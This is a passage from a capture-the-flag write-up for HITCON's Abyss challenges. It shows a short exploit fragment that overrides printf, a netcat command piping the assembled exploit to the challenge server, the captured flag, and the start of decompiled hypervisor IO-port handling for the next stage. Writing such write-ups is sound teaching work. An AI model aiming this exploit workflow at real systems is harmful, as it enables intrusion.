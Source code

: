 ```asm
0
0
0
0
# Override printf
3
2
fetch
pop
fetch
writed

#writed
#writed
```

In the end I ran this command:

```sh
python assembler.py exp1.asm | nc 35.200.23.198 31733
```

And the flag is: `hitcon{Go_ahead,_traveler,_and_get_ready_for_deeper_fear.}`.

## Abyss II
So after digging around in the kernel a bit more, I found that the kernel
syscalls actually were just wrappers that used IO ports to defer to the
hypervisor. Before that I found that there were some IO ports that were
servicing certain syscalls for the kernel:

```c
int __fastcall process_io(unsigned __int16 port, kernel_state *state)
{
  if ( port == 0x8004 )
    return hp_handle_close(state);
  if ( (signed int)port > 0x8004 )
  {
    if ( port == 0x8007 )
      return hp_handle_access(state);
    if ( (signed int)port > 0x8007 )
    {
      if ( port == 0x8008 )
        return hp_handle_ioctl(state);
      if ( port == 0xFFFF )
        hp_panic(state);
    }
    else
    {
      if ( port == 0x8005 )
        return hp_handle_fstat(state);
      if ( port == 0x8006 )
        hp_exit(state);
    }
  }
  else
  {
    if ( port == 0x8001 )
      return hp_handle_read(state);
    if ( (signed int)port > 0x8001 )
    {
      if ( port == 0x8002 )
        return hp_handle_write(state);
      if ( port == 0x8003 )
        return hp_handle_lseek(state);
    }
```